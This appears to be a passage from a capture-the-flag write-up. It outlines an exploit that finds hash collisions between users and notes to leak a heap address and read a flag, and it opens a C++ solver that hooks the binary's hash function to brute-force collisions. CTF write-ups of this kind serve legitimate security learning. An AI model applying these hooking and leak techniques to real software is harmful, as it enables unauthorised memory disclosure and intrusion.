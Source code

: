 This process was resolved using a gdb script and installing inline hooks into the binary. After solving the challenge, I realized that hooking the initialization function using the same method as hooking the `hash()` would have been a simpler solution.

It took approximately 1m 30s to 10m to obtain a single collision pair.

```c
[+] Collision found
	hash43 - 0x18ae0bba71a
	user-kca0sobjdqq83nv;
  note-aqosmmawo1z-q2cvs3vly9xtz;
  prebuilt(M)-2097152, streamed(K)=525300
  time: build=75.887s, stream=21.997s, total=97.884s
```

## Full Attack Scenario

Let’s outline the entire attack flow.

1. Find hash collision pairs between users and notes.
2. Create a note corresponding to the found collision pair.
3. Log out and log in as the user corresponding to the found collision pair. During login, the heap address pointing to the collision pair note’s title will leak.
4. Calculate the address where the flag is located using this leaked address.
5. Use the last 6 bytes of the password’s 14 bytes to form a new address and find another hash collision pair.
6. Log in as the user from the collision pair found in step 5.
7. Reading the note corresponding to this collision pair will reveal the flag.

## Solver

These are the complete solver codes that successfully executed actual Docker attacks.

`bf.cpp` : Hook binary’s `hash()` function & Brute-force hash collision pairs using the birthday problem

```cpp
#define _GNU_SOURCE
#include <dlfcn.h>
#include <link.h>
#include <stdint.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <atomic>
#include <string>
#include <unordered_map>
#include <random>
#include <thread>
#include <vector>
#include <iostream>

#ifndef PATCH_RVA
# error "PATCH_RVA not defined."
#endif

uintptr_t main_base;
static int cb(struct dl_phdr_info* info, size_t sz, void* data) {
    if (!info->dlpi_name || !*info->dlpi_name) {
        *(uintptr_t*)data = info->dlpi_addr;
        return 1;
    }
    return 0;
}
```